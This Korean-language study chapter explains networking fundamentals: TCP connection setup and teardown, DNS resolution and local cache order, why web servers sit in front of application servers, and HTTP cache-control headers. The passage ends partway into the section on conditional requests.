# PART 08. 네트워크 기술 (Network & Web Protocols)

> **"네트워크는 컴퓨터와 컴퓨터가 나누는 정교한 대화의 예술입니다."**  
> 오늘날 우리가 구축하는 거의 모든 소프트웨어는 네트워크라는 거대한 그물망 위에서 동작합니다. 프론트엔드 브라우저에서 버튼을 하나 누르는 순간, 보이지 않는 곳에서는 수천 킬로미터 떨어진 데이터센터와 수십 번의 신호가 교환되며, 보안 검증과 패킷 라우팅, 데이터베이스 트랜잭션이 유기적으로 맞물려 돌아갑니다.  
> 이번 파트에서는 클라이언트와 서버가 연결을 맺는 기초적인 패킷 교환부터, 도메인 해석, 웹 서버와 WAS의 분업, 캐시 전략, HTTP 프로토콜의 눈부신 진화, 브라우저 렌더링 파이프라인, 그리고 최신 인증 메커니즘과 실시간 통신 기술까지 현업 엔지니어가 반드시 갖추어야 할 네트워크의 모든 핵심 원리를 명쾌하고 깊이 있게 해설합니다.

---

## 01. 클라이언트 서버 통신은 어떻게 되나요?
> **요청(Request)과 응답(Response), 3-Way Handshake 연결 수립 및 4-Way Handshake 종료 과정**

우리가 매일 사용하는 웹 브라우저, 모바일 앱, 그리고 백엔드 API 서버는 모두 **클라이언트-서버(Client-Server) 모델**을 기반으로 상호작용합니다. 서비스를 이용하려는 주체(클라이언트)가 먼저 말을 걸고, 서비스를 제공하는 주체(서버)가 이에 알맞은 결과를 건네주는 구조입니다. 

하지만 무선 전파와 광케이블을 통해 전 세계로 오가는 전기적 신호는 언제든 유실되거나 지연될 위험이 있습니다. 그렇다면 인터넷은 어떻게 이 불안정한 물리적 환경 속에서도 한 글자의 오차도 없이 신뢰할 수 있는 통신을 보장할 수 있을까요? 그 비밀은 바로 **TCP(Transmission Control Protocol)**의 정교한 연결 제어 메커니즘인 **3-Way Handshake**와 **4-Way Handshake**에 있습니다.

---

### 1.1 클라이언트의 요청(Request)과 서버의 응답(Response)

클라이언트-서버 통신의 가장 기본적인 추상화 계층은 **'요청-응답(Request-Response)'** 사이클입니다.



1. **클라이언트의 요청(Request)**: 사용자의 행동(URL 입력, 버튼 클릭 등)에 의해 트리거되며, 목적지 서버의 IP 주소와 포트 번호, 그리고 요청하고자 하는 자원(URI), 메서드(GET, POST 등), 부가 메타데이터(헤더)를 패킷에 담아 보냅니다.
2. **서버의 응답(Response)**: 서버는 특정 포트에서 대기(Listen)하고 있다가 클라이언트의 요청이 도달하면 이를 수신하여 해석합니다. 내부 비즈니스 로직과 데이터베이스 트랜잭션을 처리한 뒤, 그 결과와 상태 코드(200 OK, 404 Not Found 등)를 포함한 응답을 클라이언트로 되돌려 보냅니다.

이러한 상위 계층(HTTP 등)의 대화가 이루어지기 위해서는, 밑바닥 전송 계층(Transport Layer)에서 두 컴퓨터 간의 **가상 회선(Virtual Circuit)**이 먼저 안전하게 수립되어야 합니다. 이것이 바로 TCP 연결입니다.

---

### 1.2 신뢰성 있는 연결 수립: TCP 3-Way Handshake

TCP는 데이터를 주고받기 전에 양 종단(End-to-End) 시스템 간에 데이터 전송 준비가 완료되었음을 상호 확인하는 절차를 거칩니다. 악수를 세 번 나눈다는 뜻에서 **3-Way Handshake**라고 부릅니다.

이 과정에서 핵심은 서로의 존재를 확인하는 것뿐만 아니라, 향후 패킷 순서를 맞추고 분실 여부를 판별하기 위한 **초기 순서 번호(ISN: Initial Sequence Number)**를 안전하게 동기화(SYN)하는 것입니다.



#### 세부 단계별 패킷과 소켓 상태(State) 변화
1. **[Step 1] 클라이언트 -> 서버 : SYN (Synchronize Sequence Numbers)**
   - **패킷 플래그**: `SYN=1`, `ACK=0`
   - **내용**: 클라이언트는 무작위로 생성한 자신만의 초기 순서 번호 `ISN(Client) = X`를 패킷 헤더에 담아 전송합니다.
   - **소켓 상태**: 클라이언트는 `CLOSED`에서 **`SYN_SENT`** 상태로 전이합니다. 서버는 `LISTEN` 상태에서 이 패킷을 수신하면 **`SYN_RCVD`** 상태로 전이합니다.
2. **[Step 2] 서버 -> 클라이언트 : SYN + ACK**
   - **패킷 플래그**: `SYN=1`, `ACK=1`
   - **내용**: 서버는 클라이언트의 연결 요청을 수락하며, 클라이언트의 번호 `X`를 잘 받았다는 확인 응답으로 `Ack = X + 1`을 설정합니다. 동시에 서버 자신도 고유한 초기 순서 번호 `ISN(Server) = Y`를 실어 보냅니다.
   - **소켓 상태**: 패킷을 보낸 서버는 계속 `SYN_RCVD` 상태를 유지합니다. 패킷을 수신한 클라이언트는 서버의 송수신 능력을 확인했으므로 **`ESTABLISHED`** 상태로 전환됩니다.
3. **[Step 3] 클라이언트 -> 서버 : ACK (Acknowledgment)**
   - **패킷 플래그**: `SYN=0`, `ACK=1`
   - **내용**: 클라이언트는 서버의 번호 `Y`를 잘 받았음을 알리기 위해 `Ack = Y + 1`, 자신의 순서 번호 `Seq = X + 1`을 담아 마지막 응답을 보냅니다.
   - **소켓 상태**: 이 패킷을 수신한 서버 역시 **`ESTABLISHED`** 상태로 전환되며, 양방향 전이중(Full-Duplex) 통신 채널이 완전히 열립니다.

> **Q. 왜 2번이 아니라 반드시 3번의 악수(3-Way)를 해야 할까요?**  
> TCP 통신은 양방향(양쪽 모두 송신자이자 수신자)입니다.  
> - 1단계(SYN)로 서버는 **클라이언트의 송신 능력**과 **자신의 수신 능력**을 확인합니다.  
> - 2단계(SYN+ACK)로 클라이언트는 **자신의 송수신 능력**과 **서버의 송수신 능력**을 모두 확인합니다.  
> - 하지만 만약 여기서 끝난다면, 서버는 **자신이 보낸 SYN 패킷이 클라이언트에게 온전히 닿았는지(자신의 송신 능력과 클라이언트의 수신 능력)**를 알 수 없습니다. 따라서 클라이언트가 마지막 3단계(ACK)를 전송해 주어야만 서버도 비로소 클라이언트의 수신 준비를 확신할 수 있습니다.

---

### 1.3 안전하고 우아한 연결 종료: TCP 4-Way Handshake

데이터 송수신이 모두 끝났다면 연결을 즉시 끊어버리는 것이 아니라, 아직 네트워크망을 떠돌고 있을지 모르는 잔여 패킷을 모두 수신하고 양측의 버퍼를 깔끔하게 비우는 **우아한 종료(Graceful Teardown)** 절차를 거칩니다. 이때는 네 단계의 패킷 교환이 일어납니다.



#### 세부 단계별 절차와 핵심 상태 분석
1. **[Step 1] 클라이언트 -> 서버 : FIN (Finish)**
   - 연결을 종료하고자 하는 주체(여기서는 클라이언트)가 더 이상 보낼 데이터가 없음을 알리기 위해 `FIN` 플래그를 설정하여 전송하고, 상태를 **`FIN_WAIT_1`**으로 바꿉니다.
2. **[Step 2] 서버 -> 클라이언트 : ACK**
   - 서버는 클라이언트의 종료 요청을 확인하고 `ACK` 패킷을 전송합니다. 서버는 자신의 상태를 **`CLOSE_WAIT`**로 바꾸고, 클라이언트는 이 ACK를 받아 **`FIN_WAIT_2`** 상태가 됩니다.
   - **반연결(Half-Close) 상태**: 클라이언트가 서버로 가는 송신 스트림은 닫혔지만, 서버가 클라이언트로 데이터를 보내는 스트림은 여전히 열려 있습니다. 서버는 미처 다 보내지 못한 잔여 데이터를 마저 전송합니다.
3. **[Step 3] 서버 -> 클라이언트 : FIN**
   - 모든 비즈니스 로직과 데이터 송신을 끝낸 서버는 비로소 자신도 연결을 종료하겠다는 의미로 `FIN` 패킷을 보내고 **`LAST_ACK`** 상태가 됩니다.
4. **[Step 4] 클라이언트 -> 서버 : ACK 및 TIME_WAIT**
   - 클라이언트는 서버의 FIN에 대한 확인 응답으로 `ACK`를 보내고, 즉시 소켓을 파기하는 것이 아니라 **`TIME_WAIT`** 상태로 진입합니다.
   - 서버는 이 마지막 ACK를 수신하고 소켓을 즉시 **`CLOSED`**합니다. 클라이언트는 일정 시간(일반적으로 2MSL, 약 1~4분)이 경과한 뒤 소켓을 닫습니다.

> **중요: TIME_WAIT 상태는 왜 필수적일까요?**  
> 1. **마지막 ACK 유실 대비**: 클라이언트가 보낸 4단계 ACK가 네트워크 혼잡으로 유실되면, 서버는 FIN을 재전송합니다. 만약 클라이언트가 이미 CLOSED 상태라면 서버의 재전송 FIN에 대해 `RST(Reset)` 에러를 뿜게 되어 비정상 종료가 발생합니다.  
> 2. **지연 패킷 충돌 방지**: 이전 연결에서 전송되었으나 라우터의 병목 등으로 심하게 지연된 패킷(Duplicate/Lost Segment)이 뒤늦게 도착했을 때, 새롭게 열린 동일 포트의 소켓으로 흘러 들어가 데이터가 오염되는 것을 방지합니다. 네트워크 상의 패킷 수명인 MSL(Maximum Segment Lifetime)의 2배 동안 기다려 잔여 패킷이 자연 소멸되도록 보장합니다.

---

## 02. 도메인 주소는 어떻게 실제 서버를 찾아가나요?
> **DNS(Domain Name System) 계층 구조, 재귀적 질의(Recursive Query) 흐름, Hosts 파일과 로컬 캐시**

인터넷에 연결된 모든 기기는 숫자로 이루어진 **IP 주소(예: `142.250.196.110`)**를 통해 서로를 식별하고 라우팅합니다. 하지만 인간이 수많은 웹사이트의 복잡한 숫자 조합을 외우기는 불가능에 가깝습니다. 그래서 우리는 `www.google.com`, `naver.com` 같은 직관적인 문자열인 **도메인 네임(Domain Name)**을 사용합니다.  

이 문자열 형태의 도메인을 실제 통신 가능한 IP 주소로 상호 변환해 주는 전 지구적 분산 데이터베이스 시스템이 바로 **DNS(Domain Name System)**입니다.

---

### 2.1 DNS의 계층형 트리 구조 (Hierarchical Tree Structure)

DNS는 단일 중앙 서버가 전 세계 수십억 개의 도메인을 관리하지 않습니다. 만약 단일 서버 구조였다면 트래픽 폭주로 인한 병목(Single Point of Failure)이 발생해 전 세계 인터넷이 일순간에 마비되었을 것입니다. 대신 DNS는 **역트리(Inverted Tree)** 형태의 철저한 분산 계층 구조를 취하고 있습니다.

```
                    . (루트 도메인 : Root Domain)
                  /   |   \
              .com   .net  .kr (최상위 도메인 : TLD)
             /              \
       example.com         co.kr (차상위 도메인 : SLD / 2LD)
       /                     \
   api.example.com         naver.co.kr (책임 DNS 서버 : Authoritative DNS)
```

1. **루트 도메인 (Root Domain, `.`)**
   - 모든 도메인 주소의 가장 뒤에는 생략된 점(`.`)이 존재합니다. 전 세계에 단 13개의 논리적 루트 서버(A부터 M까지)가 있으며, 애니캐스트(Anycast) 기술을 통해 전 세계 수백 개 이상의 물리적 노드로 분산 복제되어 운영됩니다. TLD 네임서버의 IP 목록을 관리합니다.
2. **최상위 도메인 (TLD, Top-Level Domain)**
   - `.com`, `.net`, `.org`와 같은 일반 최상위 도메인(gTLD)과 `.kr`, `.jp`, `.us`와 같은 국가 코드 최상위 도메인(ccTLD)으로 나뉩니다. 해당 TLD 아래에 등록된 2차 도메인들의 책임 네임서버 주소를 관리합니다.
3. **차상위 도메인 (SLD, Second-Level Domain) 및 기관 도메인**
   - `google.com`에서의 `google`, `co.kr`에서의 `co` 등을 의미합니다.
4. **권한 있는 네임서버 (Authoritative DNS Server)**
   - 특정 도메인 영역(Zone)에 대한 최종 권한을 위임받아, 해당 도메인의 실제 IP 주소(A, AAAA 레코드), 메일 서버(MX 레코드), 서브도메인 매핑(CNAME 레코드) 등을 직접 저장하고 확정적인 응답을 내려주는 서버입니다.

---

### 2.2 도메인 해석 과정: 재귀적 질의(Recursive)와 반복적 질의(Iterative)

사용자가 브라우저에 `www.example.com`을 입력했을 때, IP를 찾아가는 실제 과정은 **재귀적 질의**와 **반복적 질의**가 조합되어 일어납니다.

- **재귀적 질의 (Recursive Query)**: "최종 IP를 찾을 때까지 대신 찾아서 나에게 알려줘!" (클라이언트 -> 로컬 DNS 리졸버)
- **반복적 질의 (Iterative Query)**: "내가 직접 모르면, 그 주소를 알고 있을 만한 다른 네임서버의 주소를 알려줄게!" (로컬 DNS 리졸버 -> 루트/TLD/책임 서버)



---

### 2.3 로컬 환경의 주소 해석 우선순위와 캐시

인터넷 트래픽을 아끼고 속도를 극대화하기 위해, 실제 컴퓨터는 모든 요청마다 위 8단계 과정을 밟지 않습니다. 엄격한 우선순위 캐시 체계를 거칩니다.

| 우선순위 | 검사 위치 | 설명 |
| :--- | :--- | :--- |
| **1단계** | **브라우저 캐시** | Chrome, Edge 등 브라우저 자체 메모리에 단기간 유지되는 캐시 (`chrome://net-internals/#dns`) |
| **2단계** | **OS DNS 캐시** | 운영체제(Windows DNS Client, macOS mDNSResponder)의 메모리 캐시 (`ipconfig /displaydns`) |
| **3단계** | **Hosts 파일** | 시스템 로컬에 위치한 정적 매핑 파일 (`C:\Windows\System32\drivers\etc\hosts` or `/etc/hosts`). **네트워크 통신 없이 무조건 최우선 적용** |
| **4단계** | **로컬 DNS 리졸버 (ISP)** | 통신사(SKT, KT, LGU+)나 공개 DNS(8.8.8.8, 1.1.1.1). 여기서 캐시 미스가 나면 비로소 전 세계 Root/TLD 질의 시작 |

> **보안 인사이트: DNS 스푸핑(Spoofing)과 TTL(Time To Live)**  
> - **TTL**: DNS 레코드가 로컬 캐시에 머무를 수 있는 유효 시간(초 단위)입니다. TTL이 너무 길면 서버 IP 이전 시 전파가 늦어지고, 너무 짧으면 DNS 서버 부하가 급증합니다.  
> - **DNS 캐시 포이즈닝**: 해커가 조작된 응답을 리졸버에 먼저 밀어 넣어 캐시를 오염시키는 공격입니다. 이를 방지하기 위해 암호화된 전자 서명 검증 체계인 **DNSSEC(DNS Security Extensions)**과 암호화 통신 프로토콜인 **DoH(DNS over HTTPS) / DoT(DNS over TLS)**가 널리 도입되고 있습니다.

---

## 03. 웹과 WAS의 역할은 어떻게 되나요?
> **Web Server(Apache, Nginx) vs WAS(Tomcat, Node.js), 둘을 분리하여 협업시키는 아키텍처적 이유**

엔터프라이즈 시스템 구축 시 가장 자주 마주치는 기본 아키텍처는 **"Web Server 앞단 + WAS 뒷단"**의 티어 분리 구조입니다. 둘 다 네트워크 요청을 받아 웹 페이지나 데이터를 전송한다는 점에서는 유사해 보이지만, 탄생 목적과 처리 메커니즘은 명확히 다릅니다.

---

### 3.1 Web Server와 WAS의 핵심 정의

```
[클라이언트 요청] ──> [ Web Server (Nginx) ] ──(정적 리소스 즉시 응답: HTML/CSS/Images)
                               │
                               └──(동적 로직 위임: API, DB 작업)──> [ WAS (Tomcat/Spring Boot) ]
```

#### 1) 웹 서버 (Web Server)
- **정의**: HTTP 프로토콜을 기반으로 클라이언트의 요청을 받아 **정적 컨텐츠(Static Contents: HTML, CSS, JavaScript 파일, 이미지, 폰트 등)**를 디스크에서 직접 읽어 응답하는 소프트웨어입니다.
- **특징**: 내부 비즈니스 로직을 연산하거나 데이터베이스와 직접 통신하지 않으며, I/O 처리에 극도로 최적화되어 있습니다.
- **대표 구현체**: **Nginx**, **Apache HTTP Server**, **Microsoft IIS**.

#### 2) 웹 애플리케이션 서버 (WAS: Web Application Server)
- **정의**: HTTP 요청을 처리하되, 사용자의 입력이나 상황에 따라 **동적 컨텐츠(Dynamic Contents)**를 생성하기 위해 프로그램 소스 코드(Java Servlet, Node.js 스크립트, Python 코드 등)를 실행하고 데이터베이스와 트랜잭션을 주고받는 소프트웨어입니다.
- **특징**: **웹 서버 기능 + 웹 컨테이너(Web Container)**의 결합체입니다. 스레드 풀 관리, 세션 관리, 비즈니스 로직 실행 환경을 제공합니다.
- **대표 구현체**: **Apache Tomcat**, **Jeus**, **WildFly**, **Node.js (Express/NestJS)**, **Uvicorn(FastAPI)**.

---

### 3.2 Web Server vs WAS 종합 비교표

| 비교 항목 | 웹 서버 (Web Server) | 웹 애플리케이션 서버 (WAS) |
| :--- | :--- | :--- |
| **주요 역할** | 정적 리소스 서빙, 리버스 프록시, 부하 분산 | 비즈니스 로직 연산, 동적 페이지/JSON API 생성, DB 연동 |
| **처리 데이터** | 정적 파일 (HTML, CSS, JS, JPG, MP4 등) | 동적 결과물 (JSP/Thymeleaf 렌더링, RESTful JSON) |
| **실행 환경** | OS 네이티브 프로세스 기반 비동기 I/O (epoll 등) | 런타임 가상머신 위 컨테이너 (JVM, Node V8 엔진 등) |
| **주요 장점** | 적은 메모리 사용, 초당 대량 동시 요청(C10K) 처리 | 복잡한 도메인 비즈니스 로직 구현 및 데이터 조작 |
| **대표 기술** | Nginx, Apache HTTP Server | Tomcat, Netty, Node.js, Gunicorn |

---

### 3.3 둘을 분리하여 협업시키는 아키텍처적 이유 (Best Practice)

"최신 WAS(예: Tomcat 9+, Node.js)도 정적 파일을 충분히 서비스할 수 있는데, 굳이 복잡하게 Nginx를 앞단에 두는 이유가 무엇일까요?" 현업에서 둘을 분리하는 이유는 명확합니다.

1. **서버 부하 분산 및 역할 분리를 통한 성능 최적화**
   - 단순한 이미지나 CSS 파일을 서빙하는 일에 비싼 WAS의 스레드와 힙 메모리를 소비할 필요가 없습니다. 정적 파일은 Nginx가 정적 캐시와 제로 카피(Zero-Copy: `sendfile`) 시스템 콜을 사용해 초고속으로 털어내고, 무거운 CPU/DB 연산이 필요한 요청만 WAS로 전달합니다.
2. **보안성 대폭 강화 (DMZ와 내부망 분리)**
   - 비즈니스 핵심 로직과 DB 접근 비밀번호를 쥐고 있는 WAS를 공인 IP에 노출시키면 치명적인 해킹 위험에 노출됩니다.
   - 외부망과 맞닿는 DMZ 영역에 Nginx(웹 서버)만 노출하고, WAS는 프라이빗 서브넷(Private Subnet) 내부망에 숨깁니다. 해커가 웹 서버를 뚫더라도 WAS나 DB로 직접 접근할 수 없습니다.
3. **리버스 프록시(Reverse Proxy)와 로드밸런싱(Load Balancing)**
   - 웹 서버 1대가 수많은 WAS 인스턴스(WAS-1, WAS-2, WAS-3...) 앞단에서 트래픽을 균등하게 분배합니다.
   - 특정 WAS가 죽더라도 헬스 체크(Health Check)를 통해 정상 인스턴스로만 트래픽을 우회시킵니다.
4. **무중단 배포 (Zero-Downtime Deployment)**
   - 새로운 버전의 애플리케이션을 배포할 때, Nginx 설정의 업스트림(upstream) 포트만 살짝 전환하는 **블루/그린(Blue-Green)** 배포나 **롤링(Rolling)** 배포를 사용자 체감 중단 없이 구현할 수 있습니다.
5. **SSL/TLS 종단 (SSL Termination)**
   - 복잡하고 CPU를 많이 소모하는 암복호화 핸드셰이크 연산을 앞단의 Web Server가 전담하고, 내부 통신은 가벼운 HTTP로 WAS와 통신하여 WAS의 연산 부담을 덜어줍니다.

---

## 04. 웹 애플리케이션의 캐시
> **브라우저 캐시, CDN, 리버스 프록시 캐시, HTTP 캐시 헤더(Cache-Control, ETag, Last-Modified, 304 Not Modified)**

컴퓨터 과학에서 가장 효과적인 성능 개선 기법은 **"동일한 연산이나 네트워크 전송을 두 번 반복하지 않는 것"**입니다. 캐시(Cache)는 자주 요청되는 데이터를 사용자와 물리적으로 가까운 임시 저장소에 보관하여 응답 지연 시간(Latency)을 단축하고 백엔드 서버의 트래픽 비용을 획기적으로 낮춥니다.

---

### 4.1 계층별 캐시 아키텍처

웹 애플리케이션의 캐시는 클라이언트 브라우저부터 원본 서버(Origin Server)에 이르기까지 다층적으로 배치됩니다.

```
[클라이언트 브라우저] ────> [ CDN 엣지 서버 ] ────> [ 리버스 프록시 (Nginx) ] ────> [ 원본 서버 (WAS) ]
  • 메모리 / 디스크 캐시     • Cloudflare / AWS       • Nginx / Varnish Cache         • 로컬 인메모리 캐시
  • 개인화 캐시 (Private)    • 지리적 지연 단축        • 서버 부하 원천 차단            • Redis / DB 쿼리 캐시
```

1. **브라우저 캐시 (Browser Cache)**
   - 사용자 PC의 RAM(메모리 캐시)이나 로컬 SSD(디스크 캐시)에 정적 자원을 저장합니다. 네트워크 전송 자체가 발생하지 않으므로 응답 시간이 **0ms (`from disk cache` / `from memory cache`)**에 수렴합니다.
2. **CDN (Content Delivery Network)**
   - 전 세계 수백 개 거점(PoP: Point of Presence)에 분산 설치된 엣지(Edge) 서버입니다. 한국에 있는 사용자가 미국 오리진 서버의 이미지를 요청할 때, 지리적으로 가까운 서울 리전 CDN 노드에서 즉시 데이터를 수취합니다.
3. **리버스 프록시 캐시 (Reverse Proxy Cache)**
   - 웹 서버(Nginx, Varnish) 계층에서 동일한 API 응답이나 HTML 조각을 메모리에 캐싱하여, 수만 명의 사용자가 같은 페이지를 요청해도 WAS가 DB 쿼리를 단 한 번만 실행하도록 보호합니다.

---

### 4.2 HTTP 캐시 제어 헤더: 만료(Freshness)와 유효성 검증(Validation)

HTTP 프로토콜은 헤더를 통해 캐시를 매우 정교하게 통제합니다. 핵심은 **"이 데이터가 아직 신선한가?(Fresh)"**와 **"상했는지 원본 서버에 물어볼 것인가?(Validate)"**입니다.

#### 1) 신선도 제어의 핵심: `Cache-Control`
과거 HTTP/1.0에서는 `Expires: Wed, 21 Oct 2026 07:28:00 GMT`와 같은 절대 시간을 사용했으나, 클라이언트와 서버의 시스템 시계가 다를 경우 오작동하는 치명적인 단점이 있었습니다. HTTP/1.1은 상대적 수명을 명시하는 `Cache-Control`을 표준으로 채택했습니다.

- `Cache-Control: max-age=3600`: 앞으로 3600초(1시간) 동안은 원본 서버에 묻지 않고 캐시된 사본을 그대로 사용합니다.
- `Cache-Control: no-cache`: **"캐시를 저장하지 말라"는 뜻이 절대 아닙니다!** 캐시를 디스크에 저장하되, **사용하기 전에 반드시 원본 서버에 가서 데이터가 바뀌었는지 유효성 검증(Validation)을 받으라**는 강력한 지시어입니다.
- `Cache-Control: no-store`: 캐시를 메모리나 디스크 등 그 어떤 저장소에도 **절대 저장하지 말라**(민감한 금융/개인정보에 필수).
- `Cache-Control: public`: 브라우저뿐 아니라 중간의 CDN, 프록시 서버 등 모든 공유 캐시에 저장 가능합니다.
- `Cache-Control: private`: 오직 최종 사용자의 단말(브라우저)에만 캐싱해야 하며, 중간 프록시(CDN)는 캐싱할 수 없습니다.

---

### 4.3 조건부 요청과 304 Not Modified의 작동 메커니즘

캐시의 유효 기간(max-age)이 지났거나 `no-cache`가 선언되어 있을 때, 브라우저는 원본 서버에 **"내가 가진 캐시가 여전히 유효한가요?"**를 묻는 **조건부 요청(Conditional Request)**을 보냅니다.

